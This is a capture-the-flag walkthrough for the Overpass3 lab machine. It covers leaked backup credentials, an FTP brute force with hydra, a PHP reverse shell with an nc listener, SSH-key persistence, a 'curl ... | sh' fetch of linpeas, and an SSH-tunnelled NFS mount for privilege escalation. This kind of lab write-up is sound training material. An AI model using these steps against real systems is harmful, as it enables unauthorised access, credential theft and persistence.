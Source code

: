 Overpass3 Writeup


# Enumeration

First we start a nmap scan and a gobuster scan as always and start exploring manually the webpage.

The Webpage itself looks a bit empty and static but we find a few possible Usernames:

[![https://imgur.com/OQ86bnA.png](https://imgur.com/OQ86bnA.png)](https://imgur.com/OQ86bnA.png)

We also found a /backups endpoint through our gobusterscan.

Visiting that page http://ip/backups give us the option to download the backup.zip

[![https://imgur.com/jPMhQKN.png](https://imgur.com/jPMhQKN.png)](https://imgur.com/jPMhQKN.png)

After downloading and unzipping the file we get two new files:

[![https://imgur.com/0vbx7Ob.png](https://imgur.com/0vbx7Ob.png)](https://imgur.com/0vbx7Ob.png)

one of them is a PGP(Pretty Good Privacy) Key and the other one is a protected excel file which we need to open with our PGP key.

After researching abit i found that we can import the key with gpg:

gpg --import priv.key

and then use it to open the file:

gpg CustomerDetails.xlsx.gpg

now after renaming CustomerDetails.xlsx to CustomerDetails we have a folder with files we can search through.

One of the files is called sharedStrings.xml where we find a list of Credentials.

But where do we login? We didn't find any login through gobuster so lets check the services we found on nmap.

[![https://imgur.com/tN09AUl.png](https://imgur.com/tN09AUl.png)](https://imgur.com/tN09AUl.png)

We have an ssh and an FTP service.

I created short wordlists out of the credentials we found to automate trying to loginto the services and now we can use hydra to give us a hand for executing the login.

The command for hydra is the following:

[![https://imgur.com/7m8lubp.png](https://imgur.com/7m8lubp.png)](https://imgur.com/7m8lubp.png)

(If you want to replace the ip like in the image above you can: sudo vim /etc/hosts and a line: ip overpass3)

We can already see that SSH wont work with out a private rsa key.

So lets try ftp.

Success!

[![https://imgur.com/DzdnfOz.png](https://imgur.com/DzdnfOz.png)](https://imgur.com/DzdnfOz.png)

We can now loginto FTP!

[![https://imgur.com/GZzNLB5.png](https://imgur.com/GZzNLB5.png)](https://imgur.com/GZzNLB5.png)

After testing that we can upload files:

[![https://imgur.com/1uxQlRt.png](https://imgur.com/1uxQlRt.png)](https://imgur.com/1uxQlRt.png)

We can now create a folder upload our reverseshell and then call the endpoint where the file is stored to activate the reverseshell.
(Get a reverseshell on https://github.com/pentestmonkey/php-reverse-shell and dont forget to change the ip and port)

[![https://imgur.com/s2NQwJR.png](https://imgur.com/s2NQwJR.png)](https://imgur.com/s2NQwJR.png)

We also need to start a nc listener:

sudo nc -lvnp port

To activate the shell we can curl the place where its stored:

curl http://overpass3/shell/phprev.php

And we are in! 

[![https://imgur.com/F2x8fh9.png](https://imgur.com/F2x8fh9.png)](https://imgur.com/F2x8fh9.png)

## Persistence

If we navigate to the /home directory we can see that there are two users:
James and Paradox.
For Paradox we know the password so lets switch to that user:

[![https://imgur.com/4SCpOba.png](https://imgur.com/4SCpOba.png)](https://imgur.com/4SCpOba.png)

In his homedirectory (~) we can see a .ssh folder so lets put our public key in authorizedkeys to get a better shell and persistance.

[![https://imgur.com/Tgsi0S5.png](https://imgur.com/Tgsi0S5.png)](https://imgur.com/Tgsi0S5.png)

Now we can use our private id_rsa key to loginto SSH:

[![https://imgur.com/l7yN2dj.png](https://imgur.com/l7yN2dj.png)](https://imgur.com/l7yN2dj.png)


## Privilege Escalation

Lets find out what we can execute and how we can escalate our privileges.

First we create a simple http.server on our hostmachine:

python3 -m http.server

i already have linpeas if you need to downloaded it do it here: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

and on the target machine go into the /tmp directory:

curl http://your_THM_IP/linpeas.sh | sh

we found a option root_squash for nfs so we could try to ssh tunnel into that service.

[![https://imgur.com/364hbdt.png](https://imgur.com/364hbdt.png)](https://imgur.com/364hbdt.png)

We are logged into ssh as paradox and we want to get access to the james user.

[![https://imgur.com/vjgiKIG.png](https://imgur.com/vjgiKIG.png)](https://imgur.com/vjgiKIG.png)

We see that the folder of james is shared /home/james.

So we can mount it as paradox and then access the content, right?

No, :( because we ain't root.

So we need a way to mount as root.. Where do we have root access? On our own machine! 

So we find the port that the service is running on, normally we would do that with netstat but since its not available we run rpcinfo.

[![https://imgur.com/yQwrJH0.png](https://imgur.com/yQwrJH0.png)](https://imgur.com/yQwrJH0.png)

We can see on which port nfs is running: 2049.

Now since we have access to paradox with ssh we can PORTFORWARD.

ssh paradox@10.10.185.59 -i paradox -L 2049:localhost:2049

[![https://imgur.com/WJ5ae58.png](https://imgur.com/WJ5ae58.png)](https://imgur.com/WJ5ae58.png)

that means we can send our mount command from our host machine ( where we cant access the port 2049 of the target because its locally ) through the ssh port 22 where we have access to and then locally we can access again the port 2049 and since we have root privileges on our host we can mount the folder.

[![https://imgur.com/zk99jhr.png](https://imgur.com/zk99jhr.png)](https://imgur.com/zk99jhr.png)

We successfully mounted through an SSH-Tunnel :) 

Lets see what we find in the share.

A user flag! 

[![https://imgur.com/jU8g4fA.png](https://imgur.com/jU8g4fA.png)](https://imgur.com/jU8g4fA.png)

And ssh credentials from james !

[![https://imgur.com/0uV8IsI.png](https://imgur.com/0uV8IsI.png)](https://imgur.com/0uV8IsI.png)

Lets loginto his account with ssh.

[![https://imgur.com/ZayPFoa.png](https://imgur.com/ZayPFoa.png)](https://imgur.com/ZayPFoa.png)


